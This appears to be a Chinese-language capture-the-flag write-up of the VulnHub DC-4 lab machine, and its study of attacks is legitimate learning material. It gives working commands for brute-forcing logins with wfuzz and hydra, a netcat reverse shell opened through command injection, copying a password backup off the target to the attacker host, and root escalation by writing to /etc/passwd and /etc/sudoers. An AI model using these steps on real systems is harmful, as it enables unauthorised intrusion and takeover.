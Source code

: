 # DC4-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-4,313/

**Description**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-4 is a VirtualBox VM built on Debian 32 bit, so there should be no issues running it on most PCs.

If there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**知识点**
- web 登录爆破 (前期)
- web 命令执行 (中期)
- 反弹 shell (中期)
- SSH 爆破 (后期)
- linux 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.137` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.137
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/2.png)

一个 web ,一个 ssh,先看看 web 有什么信息

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/3.png)

单纯一个登录页面,没有任何其他逻辑功能,比如密码找回、注册

那么接下来有几种手段，直接爆破账号密码，SQL注入，和爆破目录敏感文件等,这里都可以使用 wfuzz 进行完成

直接爆破弱口令试试，注意，这里名称叫做"Admin Information Systems Login" 那么账号名很可能就是 "admin" 或 "systems",密码字典可以直接使用 kali 自带的 `/usr/share/wordlists/rockyou.txt`

```bash
head -10000 /usr/share/wordlists/rockyou.txt > test.txt
wfuzz -v -w test.txt -d "username=admin&password=FUZZ" --hh 206 -u http://192.168.141.137/login.php
```

解释一下，第一句是把 rockyou.txt 前 10000 行单独创建为一个文件 test.txt，源文件太大了足足1000多W行，wfuzz直接无法识别字典。

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/4.png)

可见,跑出了 payload 也就是密码 `happy`

---

# 中期-漏洞利用

直接登录发现存在运行执行代码的功能点

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/5.png)

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/6.png)

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/7.png)

这里可以在 burp 中拦截请求,将 payload 改为我们需要的命令

这里 kali 做好监听
```bash
nc -lvp 4444
```

修改包执行回弹命令
```
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/8.png)

此时 kali 以收到弹回的 shell，给他改成方便交互的

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/9.png)

---

# 后期-提权

接下来要想办法提权,查看能够登录的帐号
```bash
cat /etc/passwd | grep "/bin/bash"
```
```
root:x:0:0:root:/root:/bin/bash
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
```

查看目录
```
ls /home/jim
ls /home/sam
ls /home/charles
ls /tmp
```
在 `/home/jim/` 下发现了 `mbox` 文件,但是没权限读,那么想办法登录 jim

在 `/home/jim/backups` 下发现了 `old-passwords.bak` 文件,用 `scp` 命令从靶机传到 kali 上去
```bash
scp /home/jim/backups/old-passwords.bak root@192.168.141.134:/
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/10.png)

当然用 nc 也可以直接传
```
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

看了下 old-passwords.bak 内容,是个密码表,那么直接用它爆破 SSH
```bash
hydra -l jim -P /old-passwords.bak 192.168.141.137 ssh
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/11.png)

登录,并查看 mbox 内容

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/12.png)

看上去像是一份邮件,去 `/var/mail` 看看是否有信息

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/13.png)

发现一份 charles 给 jim 的信,他要去度假，老板让他把密码给 jim,ok 收获 charles 密码 `^xHhA&hvim0y`

登录 charles 用户并尝试提权
```
su charles
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/14.png)

Charles 可以使用 sudo 权限运行 teehee。teehee 可以干嘛？可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限

1. 直接写个 root 权限用户
    ```
    echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
    su test
    whoami
    ```

    ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/15.png)

2. 在 sudoers 里给 charles 所有权限
    ```
    echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
    sudo -l
    sudo su
    ```

    ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/16.png)

提权成功,感谢靶机作者 @DCUA7
